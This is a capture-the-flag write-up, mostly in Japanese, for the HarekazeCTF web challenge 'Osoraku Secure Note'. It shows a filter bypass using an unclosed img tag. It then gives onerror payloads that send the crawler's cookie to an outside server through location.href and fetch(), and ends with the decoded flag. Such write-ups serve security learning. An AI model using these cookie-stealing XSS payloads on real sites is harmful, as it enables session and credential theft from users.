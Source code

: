 # Osoraku Secure Note:Web:322pts
メモ帳を作ってみました。  
[http://osoraku-secure-note.harekaze.com](http://osoraku-secure-note.harekaze.com/)  
添付ファイル:  
- [osoraku-secure-note.zip](osoraku-secure-note.zip)  

---

I made a note-taking service.  
[http://osoraku-secure-note.harekaze.com](http://osoraku-secure-note.harekaze.com/)  
Attachments:  
- [osoraku-secure-note.zip](osoraku-secure-note.zip)  

# Solution
サイトにアクセスするとメモサービスのようだ。  
Osoraku Secure Note  
[site1.png](site/site1.png)  
メモの閲覧画面で`Report this note`とあることからもXSS問題のようだ。  
[site2.png](site/site2.png)  
`<script>alert(1)</script>`はブロックされる。  
ブラックボックスで`<img abc`を入れてみると`<img abc="" <="" div="">`となっていた。  
不完全なタグでXSSが起こせそうだ。  
`<img src="1" onerror="alert(1)"`でalertが発生した。  
XSSが達成できたので、次に配布されたクローラのソースを見ると以下のようであった。  
```js
~~~
  const page = await browser.newPage();
  try {
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(BASE_URL).hostname,
      httpOnly: false,
      secure: false
    });
~~~
```
setCookieしているので、document.cookieを取得してリダイレクトすればよい。  
`<img src="1" onerror="location.href='https://[リクエストが受け取れるサーバ]/?s='+btoa(document.cookie)"`で行う。  
しかし、うまく動作しなかった(ローカルではChrome,Firefoxで動作した)。  
クローラではよくあることなので、別手法としてfetchすればよい。  
`<img src="1" onerror="fetch('https://[リクエストが受け取れるサーバ]/?s='+btoa(document.cookie))"`で行う。  
すると`/?s=ZmxhZz1IYXJla2F6ZUNURntjaHIxc3RtNHNfNGx3NHlzX3JlbTFuZHNfbWVfMGZfNG00ZzRtMX0=`のリクエストが飛んでくる。  
```bash
$ echo "ZmxhZz1IYXJla2F6ZUNURntjaHIxc3RtNHNfNGx3NHlzX3JlbTFuZHNfbWVfMGZfNG00ZzRtMX0=" | base64 -d
flag=HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}
```
デコードするとflagであった。  
ちなみにfirst bloodだった。  

## HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}